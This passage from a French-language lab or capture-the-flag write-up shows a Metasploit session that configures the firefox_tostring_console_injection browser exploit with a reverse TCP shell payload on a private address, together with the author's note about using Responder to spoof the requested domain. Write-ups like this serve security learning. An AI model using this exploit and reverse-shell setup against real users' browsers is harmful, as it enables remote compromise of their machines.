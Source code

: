 ```
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive

```

## Braconnage de panda roux

Une recherche dans Metasploit des exploits pour Firefox sous Linux ne m'a rien retourné de probant mais une recherche plus générale ressortait le module `firefox_tostring_console_injection`.

La description est la suivante :

>   This exploit gains remote code execution on Firefox 15-22 by abusing  two separate Javascript-related vulnerabilities to ultimately inject 
>   malicious Javascript code into a context running with chrome:// privileges.

Je n'ai pas trouvé d'explications détaillées sur le web mais l'exploitation fonctionne avec l'aide de `Responder` qui usurpe le domaine demandé :

```
msf6 exploit(multi/browser/firefox_tostring_console_injection) > show options

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.79    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)



View the full module info with the info, or info -d command.

msf6 exploit(multi/browser/firefox_tostring_console_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/firefox_tostring_console_injection) > 
[*] Started reverse TCP handler on 192.168.56.79:4444 
[*] Using URL: http://192.168.56.79/
```